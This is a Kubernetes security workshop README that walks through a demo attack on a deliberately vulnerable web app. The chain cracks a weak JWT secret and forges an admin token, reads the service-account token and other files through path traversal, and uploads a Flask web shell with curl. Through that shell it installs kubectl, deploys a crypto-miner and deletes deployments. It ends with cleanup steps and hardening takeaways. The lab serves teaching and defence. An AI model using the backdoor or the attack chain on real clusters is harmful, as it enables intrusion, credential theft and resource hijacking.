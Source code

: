 # Exploit Application Vulnerabilities

Application vulnerabilities can bring wide range of different *attack entrypoints*. In addition to Kubernetes-specific vulnerabilities and misconfigurations, this can lead to various beautiful attacks.

---
![K8s threat matrix](../static/03-k8s-matrix.png)
*Kubernetes threat matrix for the demo attack below*

---

## Demo: run a crypto-miner in the cluster

### Attack description:
- **Setup**: a K8s cluster with a web application deployed
- **Attacker**: an external user without any access to the cluster
- **Target**: kubectl access to the cluster (then: cluster compute resources, cluster availability, application data, more)
- **Entrypoint**: web application


## Steps to reproduce

1. deploy [./vulnerable-app](vulnerable-app) (both `auth-api` and `images-api`) and `another-app` (empty)

2. explore the images service: [http://images.vulnerable-app.seck8s.slurm.io](http://images.vulnerable-app.seck8s.slurm.io), [http://images.vulnerable-app.seck8s.slurm.io?token=foo](http://images.vulnerable-app.seck8s.slurm.io?token=foo):
[![Images-api forbidden](../static/03-application-security/01-images-api.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=49m31s)

3. explore the auth service: [http://auth.vulnerable-app.seck8s.slurm.io/](http://auth.vulnerable-app.seck8s.slurm.io/), sign-up a user, login and be redirected to the images service:
[![Auth-api signup](../static/03-application-security/02-auth-api-signup.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=49m56s)

4. side note: it is insecure to pass sensitive information in GET parameters, see how it gets logged to stdout by Flask: [dashboard link](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/images-api/logs)

---

5. copy the JWT token, explore it in [jwt.io](https://jwt.io/):
    - architecture issue: symmetric algorithm (HS256 not RS256) => both services (the one that generates and another that checks the token) use the same secret and therefore *both can issue a new JWT*

6. crack or leak the secret `secret123`:
    - leaked through the K8s configuration (secret mount to the env var `SECRET_KEY` is hard-coded in the manifest): [dashboard auth-api](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/auth-api), [dashboard images-api](http://dashboard.seck8s.slurm.io/clusters/local/namespaces/vulnerable-app/deployments/images-api)
    - since the manifests are version-controlled, can be found in the Git commit history (`git blame`): [github link](https://github.com/Slurmio/webinar-seck8s/blob/98bab96647708ab5368b5b51ccdf96dd2071894e/03-application-security/vulnerable-app/images-api/deploy/images-api.yaml#L22) (*vulnerability: [Hard-Coded Credentials](https://owasp.org/www-community/vulnerabilities/Use_of_hard-coded_password)*. Remember: source code is not secret!)
    - the secret is weak therefore very easy to crack - in minutes with the tool [lmammino/jwt-cracker](https://github.com/lmammino/jwt-cracker) (*vulnerability: Weak Secret*)
    [![Cracked jwt token](../static/03-application-security/03-jwt-cracked.png)](https://www.youtube.com/watch?v=koTqZS-ThZ8&t=52m45s)

7. escalate provileges by changing the `"role": "user"` to `"role": "admin"` in the JWT payload (*vulnerability: [Broken User Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)*)

8. proceed to `images-api` with the new token, see the admin page

---

9. read some files from the pod: `../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token` (pod service account's token and certificate), `../app.py` (source code of the Flask app), `../../../../../../etc/shadow/proc/1/environ` (pod environment variables), etc. (*vulnerability: [LFI, Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)* + too high privileges as the pod is running as `root` in the container)

> Note: by now, we acquired the service account credentials to the cluster. If we know the external Kube API address (if it's exposed), then we have the remote kubectl access:
> `kubectl --server=https://kubernetes.default.svc --certificate-authority=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) <command>`

> However, Kube API is not always exposed, so let's try to get kubectl working from the pod itself.
---

10. upload the new Flask file to `../app.py` with the backdoor activated via GET parameter `cmd` (*vulnerability: [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)* -- the attacker can upload file to an arbitrary directory):
    - construct the payload ([payloads/app.py](payloads/app.py)):
    ```python
    ...
    @app.route("/", methods=["GET"])
    def home():
        cmd = request.args.get('cmd')
        if cmd:
            import subprocess
            p = subprocess.run(["bash", "-c", cmd], stderr=subprocess.STDOUT, stdout=subprocess.PIPE)
            return p.stdout.decode()
        ...
    ```
    - try to browse [http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls](http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls), get Unauthorized
    ```sh
    TOKEN=<your token>
    curl -vv -o /tmp/out.html -F "file=@payloads/app.py; filename=../app.py" "http://images.vulnerable-app.seck8s.slurm.io/?token=$TOKEN"
    ```
    - try again [http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls](http://images.vulnerable-app.seck8s.slurm.io/?cmd=ls), get the backdoor shell
    - since the server is in Debug mode, it auto-reloads without restarting the pod

9. use the backdoor to install `kubectl` (note again: the pod is running Ubuntu as `root`) by navigating to `http://images.vulnerable-app.seck8s.slurm.io/?cmd=...`:
    - `kubectl get all`
    - install curl: `apt-get update`, `apt-get -y install curl`
    - install kubectl ([instruction](http://kubernetes.io/docs/tasks/tools/install-kubectl-linux/)):
        - `curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"`
        - `install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl`
    - `kubectl get all`

10. note, the pod's SA has only permissions on Deployments -- it's done by mistake by another developer who accidentally gave extra permissions to the default service account in the namespace `vulnerable-app` (see [vulnerable-app/another-app/deploy/rbac.yaml](vulnerable-app/another-app/deploy/rbac.yaml))

11. now, let's deploy a miner:
    - use the web form [http://images.vulnerable-app.seck8s.slurm.io/?token=...](http://images.vulnerable-app.seck8s.slurm.io/?token=...) to upload the miner's manifest [payloads/monero-deployment.yaml](payloads/monero-deployment.yaml) (note: you need to use the admin JWT token again)
    - use the backdoor to: `kubectl apply -f images/monero-deployment.yaml`

11. or shut down the cluster's payload (Deployment only, permitted by RBAC): `kubectl delete deployment auth-api`

12. cleanup:
    ```sh
    cd vulnerable-app
    k delete -f another-app/deploy
    k -n vulnerable-app delete -f images-api/deploy
    k -n vulnerable-app delete -f auth-api/deploy
    k delete ns vulnerable-app
    cd ../../02-exposed-dashboard/
    k -n exposed-dashboard delete -f kube-web-view/deploy
    k -n exposed-dashboard delete -f kube-web-view/deploy-ingress
    ```

## Takeaways
- Application vulnerabilities are common attack entrypoints, see [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- Try to minimize the attacker's capabilities (use minimal images as alpine, don't run containers as root, note the sensitive information to be hard-coded, minimize privileges of the service accounts, etc)
